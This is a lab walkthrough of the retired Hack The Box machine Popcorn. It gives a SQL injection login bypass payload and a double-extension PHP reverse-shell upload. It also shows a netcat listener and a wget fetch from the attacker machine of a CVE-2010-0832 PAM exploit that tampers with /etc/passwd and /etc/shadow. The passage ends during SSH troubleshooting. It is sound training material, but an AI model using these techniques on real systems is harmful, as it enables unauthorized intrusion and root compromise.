# Hack The Box — Popcorn (Retired)

**A complete Linux penetration-testing walkthrough: SQL injection → PHP file upload → reverse shell → CVE-2010-0832 privilege escalation**

> **Spoiler warning:** This report describes the full exploitation path for the retired Hack The Box machine **Popcorn**. The included original screenshots may show flag values. Only reproduce these steps inside an environment you own or are authorized to test.

## Machine overview

| Item | Details |
| --- | --- |
| Platform | Hack The Box |
| Machine | Popcorn |
| Operating system | Linux — Ubuntu 9.10 (Karmic Koala) |
| Target during this session | `10.129.68.33` (HTB instance address; may change) |
| Local hostname entry | `popcorn.htb` |
| Exposed services | SSH `22/tcp`, HTTP `80/tcp` |
| Web server | Apache 2.2.12 (Ubuntu) |
| Initial access | SQL injection authentication bypass, then unrestricted screenshot upload |
| Initial shell | `www-data` |
| Privilege escalation | Ubuntu PAM MOTD — **CVE-2010-0832** / Exploit-DB **14339** |
| Result | `root` shell; user and root flags obtained |
| Walkthrough date | November 10, 2026 |

## Attack path



## 1. Reconnaissance

### 1.1 Nmap service discovery

I started with a service/version and default-script scan:

```bash
nmap -sCV -T5 -v 10.129.68.33
```

The key findings were:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12
```

Port 80 exposed the main attack surface, so I focused on the web application first.



*Figure 1 — Nmap output showing ports 22 and 80, service versions, and the Apache HTTP server.*

### 1.2 Hostname resolution and directory enumeration

I mapped the target IP address to `popcorn.htb` in Kali's `/etc/hosts` file:

```text
10.129.68.33 popcorn.htb
```

I then ran Gobuster with the standard DIRB wordlist:

```bash
gobuster dir -u http://popcorn.htb -w /usr/share/wordlists/dirb/common.txt
```

Notable findings included:

| Path | HTTP status | Meaning |
| --- | --- | --- |
| `/torrent/` | `301` | Redirect to a torrent-hosting application |
| `/test` | `200` | Accessible page; not the route used in this exploitation chain |
| `/index.html` | `200` | Default web content |
| `/.htaccess`, `/.htpasswd`, `/.hta` | `403` | Access forbidden |
| `/cgi-bin/` | `403` | Access forbidden |

The `/torrent/` application was the next enumeration target.



*Figure 2 — Gobuster reveals the `/torrent/` directory.*

## 2. SQL injection in the torrent login

The application had a login page at:

```text
http://popcorn.htb/torrent/login.php
```

During manual input testing, the page returned a database error with the constructed SQL query. This exposed the query structure:

```sql
SELECT userName, password, privilege, email
FROM users
WHERE userName = '<username>' AND password = '<password_hash>';
```

The screenshot shows a tautology-based input that broke SQL syntax because the MySQL `--` comment marker was not terminated correctly. In MySQL, the `--` comment syntax requires a following whitespace/control character. An alternative comment marker is `#`.

A representative test input for this vulnerable query structure is:

```sql
' OR 1=1#
```

**Evidence note:** The screenshot records a failed/malformed injection and the following session confirms access to the administrative area; the *exact successful username payload* was not captured in the available screenshots. The payload above is therefore illustrative, not a verbatim record of the successful attempt.

After correcting the SQL input, the authentication check was bypassed and the application dashboard became accessible.



*Figure 3 — The login page discloses its SQL query and a MySQL syntax error.*

**Security impact:** Unsafely interpolating user input into authentication queries can allow an attacker to change the query's logic, potentially bypassing the password check. The proper defense is parameterized queries and secure authentication logic, not input filtering alone.

## 3. Authenticated file upload vulnerability

### 3.1 Finding the screenshot uploader

Within the torrent interface, I opened a torrent entry and selected the edit function. The edit form provided an **Update Screenshot** upload field.

The form advertised the following restrictions:

- Allowed extensions: `.jpg`, `.jpeg`, `.gif`, `.png`
- Maximum file size: **100 KB**
- One screenshot per torrent



*Figure 4 — The screenshot upload form accepts image types, apparently excluding PHP.*

### 3.2 Modifying the multipart request in Burp Suite

The upload request was intercepted and inspected in **Burp Suite Repeater**. The request targeted the application's file-upload handler:

```http
POST /torrent/upload_file.php?mode=upload&id=<torrent-id> HTTP/1.1
Host: popcorn.htb
Content-Type: multipart/form-data; boundary=...
```

The relevant multipart file part used a double-extension filename and a user-controlled image MIME type:

```http
Content-Disposition: form-data; name="file"; filename="php-reverse-shell.png.php"
Content-Type: image/png

<?php
// PHP reverse-shell content
```

The filename ended in `.php` while the submitted `Content-Type` claimed `image/png`. The response returned `HTTP/1.1 200 OK` and indicated:

```text
Upload: php-reverse-shell.png.php
Type: image/png
Upload Completed.
```

This demonstrates that the application accepted a PHP file despite the UI's image-only restrictions. **Acceptance alone does not prove remote code execution**; that was confirmed in the next stage when a reverse connection was received.



*Figure 5 — Repeater shows the PHP file in the request and “Upload Completed” in the response.*

## 4. Initial access: reverse shell

The uploaded file contained a PHP reverse-shell payload. Before triggering the uploaded file, I started a listener on Kali. The terminal capture for the post-reset session shows port `443`:

```bash
nc -lvnp 443
```

The callback IP and port configured inside the PHP payload must match the Kali VPN interface and the listening port. In this session, the VPN interface address shown in the screenshots was `10.10.14.7`.

When the uploaded PHP file was reached through the application, the listener received a shell with the identity:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The shell was initially limited and displayed the typical non-interactive-shell warning:

```text
/bin/sh: can't access tty; job control turned off
```

The basic validation commands were:

```bash
whoami
id
pwd
```

I then located the first flag in the user home directory:

```bash
cat /home/george/user.txt
```

**Flag content is deliberately omitted from the text of this write-up.**



*Figure 6 — An active `www-data` shell retrieves the user flag and discovers the MOTD-related cache file.*

## 5. Local enumeration and privilege-escalation candidate

### 5.1 The MOTD cache clue

The home directory of `george` contained:

```text
/home/george/.cache/motd.legal-displayed
```

The file was zero bytes in size. It is a marker associated with login-time MOTD/legal-notice behavior, **not a script that gets executed directly**. However, the directory and its relationship to the MOTD mechanism suggested looking at historical PAM issues.

### 5.2 OS and PAM package versions

On the target, I checked:

```bash
cat /etc/issue
dpkg -l | grep -i pam
```

The observed environment included:

```text
Ubuntu 9.10
libpam-modules  1.1.0-2ubuntu1
libpam-runtime  1.1.0-2ubuntu1
libpam0g       1.1.0-2ubuntu1
```

Ubuntu lists **CVE-2010-0832** as affecting Ubuntu 9.10's `pam_motd` implementation prior to the patched `libpam-modules` version `1.1.0-2ubuntu1.1`. The vulnerability involves unsafe handling of a user-controlled `.cache` path and symbolic links during MOTD stamp creation, which may allow a local user to change the ownership of files that should be protected.

Official advisory: [Ubuntu CVE-2010-0832](https://ubuntu.com/security/cve-2010-0832) · [USN-959-1](https://ubuntu.com/security/notices/USN-959-1)



*Figure 7 — Local package enumeration confirms Ubuntu 9.10 and the vulnerable PAM package version.*

## 6. Exploit research: CVE-2010-0832

I used **SearchSploit** to locate a public proof of concept:

```bash
searchsploit pam_motd
searchsploit 2010-0832
searchsploit -m 14339
```

Exploit-DB **14339**, titled *Linux PAM 1.1.0 (Ubuntu 9.10/10.04) — MOTD File Tampering Privilege Escalation (2)*, automates a local exploitation flow. It uses temporary SSH key-based logins to trigger the affected PAM path and attempts to acquire ownership of `/etc/passwd` and `/etc/shadow`. The script then temporarily creates an account named `toor` with UID `0`.

Source: [Exploit-DB 14339](https://www.exploit-db.com/exploits/14339)

**Important:** This historical proof of concept modifies sensitive authentication files. It should only be run on the authorized, disposable HTB instance and may break the target if interrupted.



*Figure 8 — Reviewing the exploit source, requirements, and expected output before use.*

The file was transferred to the target's temporary directory and made executable:

```bash
# On Kali, from the directory containing 14339.sh:
python3 -m http.server 8000

# On the Popcorn www-data shell:
cd /tmp
wget http://10.10.14.7:8000/14339.sh
chmod +x 14339.sh
./14339.sh
```

## 7. Troubleshooting the SSH authentication failure

The **first attempt failed**, even though the package version was vulnerable:

```text
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
www-data@localhost's password:
Permission denied (publickey,password).
[-] Own /etc/passwd failed
[*] SSH key removed
```

The exploit uses a temporary SSH key to log in as the current user and trigger PAM. An interactive password prompt means the intended key-based authentication did not succeed. The string `toor` is **not** the password for `www-data@localhost`; it is only relevant once the exploit reports success and creates the temporary UID-0 account.



*Figure 9 — The first execution stops after SSH rejects public-key authentication.*



*Figure 10 — A second run reproduces the same SSH password prompt.*

The account lookup showed that `www-data` has `/var/www` as its home directory:

```text
www-data:x:33:33:www-data:/var/www:/bin/sh
```

The relevant locations were therefore `/var/www/.ssh` and `/var/www/.ssh/authorized_keys`, rather than `/home/george/.ssh`. Checking the directory permissions showed an overly permissive `.ssh` directory in one attempt, and it became empty after the exploit cleaned up its temporary key.



*Figure 11 — Checking the SSH directory and changing its mode to `700`.*

### 7.1 Resetting and recreating the SSH directory

After resetting the HTB target, `/var/www/.ssh` no longer existed. This was expected: the reset restored the instance's filesystem and removed changes made during the earlier attempts.



*Figure 12 — After the reset, the `.ssh` directory is absent and must be recreated.*

